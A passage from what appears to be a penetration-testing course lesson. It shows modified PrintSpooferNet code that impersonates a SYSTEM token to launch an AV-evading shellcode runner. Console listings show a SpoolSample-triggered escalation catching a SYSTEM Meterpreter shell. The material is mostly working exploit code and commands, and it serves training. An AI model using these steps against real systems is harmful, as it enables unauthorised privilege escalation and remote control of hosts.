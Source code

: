 When a logon session is created, _CreateProcessWithTokenW_ will automatically use the desktop of that session. However, in our case we must explicitly specify it in the _lpDesktop_ field of the _STARTUPINFO_ structure passed to the API as the eighth argument.

The default desktop is called _WinSta0\Default_,[10](https://portal.offsec.com/courses/pen-300-9502/learning/combining-the-pieces-14687/combining-the-pieces-14955#fn-local_id_743-10) which we set for the _lpDesktop_ property along with the other changes as shown in Listing 27.

```
PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
STARTUPINFO si = new STARTUPINFO();
si.cb = Marshal.SizeOf(si);
si.lpDesktop = "WinSta0\\Default";

if (args.Length == 0)
{
    Console.WriteLine("Usage: PrintSpooferNet.exe pipename");
    return;
}
...          
RevertToSelf();

res = CreateProcessWithTokenW(hSystemToken, LogonFlags.WithProfile, null, "C:\\inetpub\\wwwroot\\Upload\\met.exe", CreationFlags.UnicodeEnvironment, env, sbSystemDir.ToString(), ref si, out pi);
```

> Listing 27 - Setting default desktop and logon profile

The final step is to choose the application to use with _CreateProcessWithTokenW_. We could use PowerShell to start an in-memory PowerShell shellcode runner, but we must take AMSI into account. In more complicated attacks such as these, it is often better to take a simple approach and place the executable on disk. This means we must make sure the executable evades AV detection.

To generate the executable, we'll reuse our AV bypass C# shellcode runner that we used for our web shell, since it was successful.

Once the met.exe C# shellcode runner executable is created along with the modified PrintSpooferNet application, we'll upload them along with the SpoolSample executable to the upload folder on web01.

Now we're ready to launch the attack. First, we'll ensure that a multi/handler listener is running in the background on port 443 to catch the SYSTEM shell. Then we'll launch a command prompt and run PrintSpooferNet from that shell:

```
PS C:\windows\system32\inetsrv> c:\inetpub\wwwroot\upload\printspoofernet.exe \\.\pipe\test\pipe\spoolss
c:\inetpub\wwwroot\upload\printspoofernet.exe \\.\pipe\test\pipe\spoolss
Named pipe created: 628
```

> Listing 28 - Executing PrintSpooferNet

We'll then background the initial shell channel, launch a new shell, and run SpoolSample with web01 as the target:

```
^Z
Background channel 1? [y/N] y

meterpreter > shell
Process 3420 created.
Channel 2 created.
...

c:\windows\system32\inetsrv> c:\inetpub\wwwroot\upload\SpoolSample.exe web01 web01/pipe/test
c:\inetpub\wwwroot\upload\SpoolSample.exe web01 web01/pipe/test
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
```